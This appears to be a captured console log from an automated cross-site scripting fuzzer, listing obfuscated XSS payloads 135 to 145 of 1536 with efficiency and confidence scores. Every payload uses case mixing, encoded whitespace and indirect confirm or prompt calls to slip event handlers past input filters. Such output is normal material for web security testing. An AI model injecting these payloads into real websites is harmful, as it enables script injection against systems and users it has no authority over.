 ------------------------------------------------------------
 Payload: <A/+/OnmouseOvER+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 135/1536
 
------------------------------------------------------------
 Payload: <D3V%09onPoinTeReNtEr%09=%09(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 136/1536
 
 Progress: 137/1536
 
------------------------------------------------------------
 Payload: <D3v%0doNmoUSeoVEr%0a=%0aconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 138/1536
 
------------------------------------------------------------
 Payload: <Html/+/ONmOUSeOVER%0a=%0a[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 139/1536
 
------------------------------------------------------------
 Payload: <d3v%0donmoUSEOVER%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 140/1536
 
 Progress: 141/1536
 
------------------------------------------------------------
 Payload: <htmL%0aoNmoUsEoVeR%09=%09a=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 142/1536
 
------------------------------------------------------------
 Payload: <hTmL%0aONpoINTerENTEr%0a=%0aconfirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 143/1536
 
------------------------------------------------------------
 Payload: <D3V%0aoNPOInTeRENTeR%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 144/1536
 
------------------------------------------------------------
 Payload: <A/+/oNMOuSeOveR+=+[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 145/1536
 